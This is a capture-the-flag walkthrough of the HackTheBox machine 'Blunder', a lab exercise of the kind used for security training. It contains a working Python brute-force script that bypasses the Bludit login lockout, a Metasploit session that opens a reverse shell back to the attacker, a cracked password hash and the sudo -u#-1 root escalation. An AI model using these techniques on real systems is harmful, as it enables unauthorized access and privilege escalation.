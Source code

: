 ```yaml
---
title: "HTB: Blunder"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Blunder](/assets/images/Blunder.PNG)

# Blunder

## Website Enumeration

A quick fuzz of the websites shows that the following page exists:

http://10.10.10.191/todo.txt
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

We'll keep the username "fergus" for later use. Additionally, an admin panel exists at http://10.10.10.191/admin. Since we don't have a password yet, we'll continue enumerating the site.

We can visit the Bludit Github repo for more info on the backend of the CMS. Several interesting folders are present, and looking through them presents us with the version of Bludit that this machine is running:

http://10.10.10.191/bl-plugins/opengraph/metadata.json
```
author	"Bludit"
email	""
website	"https://plugins.bludit.com"
version	"3.9.2"
releaseDate	"2019-06-21"
license	"MIT"
compatible	"3.9.2"
notes	""
```

To exploit the admin page, we can use cewl to get a wordlist, and modify the script found at the following url:

https://rastating.github.io/bludit-brute-force-mitigation-bypass/

cewl usage:
```
cewl -w wordlist http://blunder.htb
```

Modified Script:
```
#!/usr/bin/env python3
import re
import requests

host = 'http://blunder.htb'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open('wordlist')

# Generate 50 incorrect passwords

# Add the correct password to the end of the list

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password.strip(),
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password.strip(),
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

We get the following credentials:

**fergus:RolandDeschain**

## Admin Panel Exploitation

Metasploit has a module dedicated to Bludit. We'll use linux/http/bludit_upload_images_exec to exploit the admin console and give ourselves a reverse shell:

```
use linux/http/bludit_upload_images_exec
set RHOSTS 10.10.10.191
set BLUDITUSER fergus
set BLUDITPASS RolandDeschain
run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading rQWQpOSGnt.png...
[*] Uploading .htaccess...
[*] Executing rQWQpOSGnt.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.xx.xx:4444 -> 10.10.10.191:55480) at 2020-06-01 11:03:14 -0500
[+] Deleted .htaccess
...
meterpreter > shell
Process 3329 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we can import tty:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Internal Enumeration

By doing some manual enumeration of the web-server folders, we can find the following hash in /var/www/bludit-3.10.0a/bl-content/databases/users.php:

```
...
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
...
```

Using hashes.org, we're able to easily decrypt this hash and gain the following credentials:

**Hugo:Password120**

## Enumeration as Hugo

First, we'll see if we can run anything as sudo:

```
sudo -l
Password: Password120

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This means that we can sudo -u _user_ /bin/bash to switch to any user on the box, aside from root. Using the exploit for sudo 1.8.27, we can sudo to root, even though !root is set:

https://www.exploit-db.com/exploits/47502

```
sudo -u#-1 /bin/bash

root@blunder:/root# whoami
root
```



